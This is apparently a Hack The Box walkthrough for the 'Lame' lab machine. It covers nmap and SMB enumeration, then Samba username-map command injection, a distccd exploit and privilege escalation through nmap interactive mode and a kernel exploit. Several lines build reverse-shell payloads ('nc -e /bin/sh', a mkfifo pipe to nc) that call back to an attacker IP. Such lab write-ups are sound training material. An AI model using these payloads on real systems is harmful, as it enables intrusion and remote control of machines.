 # Lame HTB, IP address: 10.10.10.3

## Initial Enumeration 
 
 1. **nmap -sC -sV 10.10.10.3** 
 
![lame1](https://user-images.githubusercontent.com/15195048/93899974-bab02500-fca9-11ea-87c0-4ab4a045c096.png)
----------------------------------------------------------------------------------------------------------------------------------------------
## Port Enumeration

## 1.Enumerating FTP

vulnerable **vsftpd 2.3.4** , anonymous login allowed
According to nmap script the ftp service is not vulnerable so the version would possibly be a banner.
However, we will try metasploit in order to exploit this vulnerability.

**Metasploit**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo msfdb start
msfconsole
>search vsftpd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![lame2](https://user-images.githubusercontent.com/15195048/93902144-167bad80-fcac-11ea-994e-7fff3d2e861e.png)


Yes, indeed this is a banner so it wont work!!

![lame3](https://user-images.githubusercontent.com/15195048/93902145-17144400-fcac-11ea-995f-560d1a312769.png)

## 2.Enumerating SMB on port 139 & 445

**1.enum4linux -a 10.10.10.3**


![lame4](https://user-images.githubusercontent.com/15195048/93902146-17144400-fcac-11ea-94fd-1935c5c21b4f.png)


**2.smbclient -L \\10.10.10.3**
 error NT_STATUS_CONNECTION_DISCONNECTED
 
  SMBClient generating an error: protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
  Samba has turned off default SMBv1 support as of September of last year.
  
**--option='client min protocol=NT1'**

**smbclient //10.10.10.x/ --option='client min protocol=NT1'**

Go to ur /etc/samba/smb.conf under the [global] section:
client min protocol = NT1
That allows smbclient to work against SMBv1 shares.

**3.smbmap -H 10.10.10.3**

 ![lame5](https://user-images.githubusercontent.com/15195048/93902150-17acda80-fcac-11ea-995a-4a4b2e36e4ec.png)

 
# Privilege Escalation no1

## A)Metasploit
Metasploit
msf5 > search samba 3.0.20
use exploit/multi/samba/usermap_script

![lame6](https://user-images.githubusercontent.com/15195048/93902152-18457100-fcac-11ea-99c5-18f7cbc424e5.png)

**Rooted**

## B)Manually exploit SMB

smbclient 10.10.10.3/tmp

smb>logon "/=`nohup nc -nv 10.10.14.4 4444 -e /bin/sh`"

![lame7](https://user-images.githubusercontent.com/15195048/93902155-18457100-fcac-11ea-998a-1cd80ce0c314.png)


**Attacker:** 
nc -lvpn 4444

![lame8](https://user-images.githubusercontent.com/15195048/93902156-18de0780-fcac-11ea-9708-2af75de533b0.png)

**Rooted**

## Samba exploit script written in Python
If you find an exploit written in Python you could modify the variables, or you can run line by line yourself.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$pythonn
>>> payload = '
>>> from smb.SMBConnection import SMBConnection
>>> payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.X 9999 >/tmp/f' Attacker IP and port
>>> username = "/=`nohup " + payload + "`"
>>> connection = SMBConnection(username, "", "", "")
>>> connection.connect("10.10.10.3",445)  Victim IP and port
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Attacker:**
nc -lnvp 9999

**Rooted**
-----------------------------------------------------------------------------------------------------------------------------------
# Privilege Escalation no2
**Enumerating port 3621 (distccd)**

![lame9](https://user-images.githubusercontent.com/15195048/93902157-18de0780-fcac-11ea-9d38-70413e9d14dd.png)

 
Metasploit module:
searchsploit -m exploits/multiple/remote/9915.rb

Let’s see if a non-metasploit one is on the internet:

NMAP Script
ls -la /usr/share/nmap/scripts/*distcc*
/usr/share/nmap/scripts/distcc-cve2004-2687.nse


**nmap -p 3632 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -e /bin/sh 10.10.14.X 9999'" 10.10.10.3 -Pn**

**Attacker:**
$ nc -lnvp 9999

## A)GTFobins nmap


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2$ id
id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


## B)Kernel Exploit
**uname -a**

Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

Search kernel exploits: **8572.c**

Send with python server the exploit and get it from the victim machine
gcc -o exp 8572.c #compile it and run it

**UDEV Modern Linux distributions** are capable of identifying a hardware component which is plugged into an already-running system. There are a lot of user-friendly distributions like Ubuntu, which will automatically run specific applications like Rhythmbox when a portable device like an iPod is plugged into the system.

*Netlink is used to transfer information between the kernel and user- space processes.*
